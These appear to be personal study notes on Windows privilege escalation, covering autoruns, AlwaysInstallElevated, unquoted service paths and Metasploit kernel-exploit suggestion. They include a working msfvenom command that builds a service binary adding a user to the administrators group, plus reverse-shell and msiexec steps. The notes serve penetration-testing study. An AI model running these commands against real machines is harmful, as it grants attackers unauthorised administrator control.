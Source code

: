 <h1>Windows Priv esc learning</h1>

<h2>Autoruns</h2>
can get a tool called autoruns - will show programs that automatically run which if writeable can create reverse shell
from msfconsole and replace program


<h2>Checking install elevated </h2>
Type - reg query HKLM\Software\Policies\Microsoft\Windows\Installer (this is a direct policy path it can change
per software)
notice that “AlwaysInstallElevated” value is 1.
Geberate reverse shell exe with msfvenom and setup a listener
msiexec /quiet /qn /i /pathtosoftwarecreated

<h2>unquoted service paths</h2>
Run winpeas and check for any unquoted service paths
for example if path -- C:\Program Files\unquoted path\Common Files
create exe - common.exe  -- msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
place in C:\Program Files\unquoted path (this ovbiously changes path for what you found)
call service   -- sc start servicename
you change change whats in the generated exe 


<h2>search configuration files for passwords</h2>



<h2>kernel exploits</h2>
if established session with MSFCONSOLE while sessions is established type
run post/multi/recon/local_exploit_suggester
identify vulnerability and type
use exploitname
set SESSION [meterpreter SESSION number]
set LPORT
run
